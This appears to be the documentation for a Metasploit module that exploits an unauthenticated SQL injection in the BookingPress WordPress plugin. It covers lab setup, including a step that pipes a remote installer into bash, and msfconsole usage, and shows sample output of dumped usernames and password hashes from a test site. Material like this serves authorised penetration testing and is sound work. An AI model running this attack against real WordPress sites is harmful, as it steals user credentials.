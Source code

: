 ## Vulnerable Application

The BookingPress WordPress plugin before 1.0.11 fails to properly sanitize user supplied data
in the `total_service` parameter of the `bookingpress_front_get_category_services` AJAX action
(available to unauthenticated users), prior to using it in a dynamically constructed SQL query.
As a result, unauthenticated attackers can conduct an SQL injection attack to dump sensitive
data from the backend database such as usernames and password hashes.

This module uses this vulnerability to dump the list of WordPress users and their associated
email addresses and password hashes for cracking offline.

### Setup
#### Ubuntu 20.04 with Docksal
Install Docksal:

```bash
sudo apt update
sudo apt install curl
bash <(curl -fsSL https://get.docksal.io)
sudo usermod -aG docker $USER
```

Reboot the VM (Docksal needs to be able to run `docker` without sudo).

```bash
msfuser@ubuntu:~$ fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf

2. What would you like to install?
   PHP based
    1.  Drupal 9 (Composer Version)
    2.  Drupal 9 (BLT Version)
    3.  Drupal 9
    4.  Drupal 7
    5.  Wordpress
    6.  Magento
    7. Laravel
    8. Symfony Skeleton
    9. Symfony WebApp
    10. Grav CMS
    11. Backdrop CMS

Go based
12. Hugo

JS based
13. Gatsby JS
14. Angular

HTML
15. Static HTML site

Custom
0. Custom git repository


Enter your choice (0-15): 5

Project folder:   /home/msfuser/msf
Project software: Wordpress
Source repo:      https://github.com/docksal/boilerplate-wordpress.git
Source branch:    <default>
Project URL:      http://msf.docksal

Do you wish to proceed? [y/n]: y

... 

Success: WordPress installed successfully.

real	0m10.112s
user	0m0.327s
sys	0m0.061s
Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download a vulnerable version of BookingPress:
`wget https://downloads.wordpress.org/plugin/bookingpress-appointment-booking.1.0.10.zip`

Navigate to the WordPress admin page that was just setup by Docksal:
`Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin`

Navigate to `Plugins` on the left hand menu, then select `Add New` then select `Upload Plugin`.

Select `Browse...` and browse to the `bookingpress-appointment-booking.1.0.10.zip` file just downloaded, click `Install Now`

You should see the following output in the browser:

```
Installing Plugin from uploaded file: bookingpress-appointment-booking.1.0.10.zip

Unpacking the package…

Installing the plugin…

Plugin installed successfully.
```

Click `Activate Plugin`

The BookingPress plugin has to be in use on the WordPress site in order to exploit the vulnerability:

1. Navigate to `/wp-admin/admin.php?page=bookingpress_services`
1. Click `Manage Categories`, then click `+ Add New`, enter a `Category Name` and click `Save`
1. Beside `Manage Servers` click `+ Add New`, enter a `Service Name`, enter the Category you just created in the `Category` dropdown, enter a `Price` and click `Save`
1. Create a new page on the WordPress site that you've just set up by clicking `+ New` at the top of the screen and then
   select `Page` from the dropdown.
1. Paste `[bookingpress_form]` on the new page and click `publish`.
1. Navigate to `/bookingpress/` and you should see BookPress running with the Category / Service you created in step 1.

## Verification Steps

1. Start msfconsole.
1. Do: `use auxiliary/gather/wp_bookingpress_category_services_sqli`.
1. Set the options `RHOSTS` (you may also have to set `RPORT` and `BOOKING_PRESS_PAGE` depending on how the target is configured).
1. Run the module.
1. Receive a table of WordPress users and their associated email addresses and password hashes.

## Scenarios
### Booking Press 1.0.10, WordPress Running Via Docksal, Ubuntu 20.04
```
msf6 > use gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts localhost
rhosts => localhost
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rport 8000
rport => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set AutoCheck false
AutoCheck => false
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[!] AutoCheck is disabled, proceeding with exploitation
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
